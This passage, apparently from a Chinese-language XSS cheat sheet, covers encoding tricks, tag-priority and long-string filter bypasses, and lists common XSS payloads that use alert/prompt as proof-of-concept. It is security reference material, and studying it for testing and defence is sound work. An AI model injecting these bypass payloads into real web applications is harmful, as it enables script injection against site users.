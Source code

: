 8、16进制编码，unicode编码，如下：

	'<' ---> \74(8进制) ---> \x3c(16进制)
	'<' ---> \u003c(jsunicode)



### 4.2 使用同义词

第3节中的方法可以相互组合替换

alert,prompt,confirm可互相替换


### 4.3 bypass实现机制

1. 超长字符串

通过提交超长的参数bypass过滤防护机制

2. 善用优先级bypass防护策略

HTML中有注释的优先级最好可以闭合其他一切，一些标签的优先级比其他优先级大，例如textarea title style script xmp优先级较高可闭合低优先级标签。例如：

	<!--<a href="--><img src=x onerror=alert(1)//">test</a>
	<title><a href="</title><img src=x onerror=alert(1)//">
	<? foo="><script>alert(1)</script>">
	<! foo="><script>alert(1)</script>">
	</ foo="><script>alert(1)</script>">
	<% foo="%><script>alert(1)</script>">

---

## 5 XSS attack payload

### 5.1 常用XSS语句

HTML组件：

	<script>alert(1)</scritp>
	<a href=javascript:alert(1)>aaa</a>
	<iframe src="javascript:alert(2)">
	<video/audio/img src=x onerror=prompt(1);>
	<img onmousemove=alert(1) src=>
	<img/µ/a\:script/src=x onerror=alert(1)//>

	<form action="Javascript:alert(1)"><input type=submit>
	<isindex action="javascript:alert(1)" type=image>
	<form><button formaction=javascript&colon;alert(1)>CLICKME
	<select/keygen/textarea autofocus onfocus=alert(1)>
	<a onmouseover=location='javascript:alert(1)'>click

	<aaaaa onclick=alert(1) src=x>click
	<LԱ onclick=alert(1)>click me</LԱ>
	<svg><script>alert&#40/1/&#41</script>
	<input oninput=alert(1)>
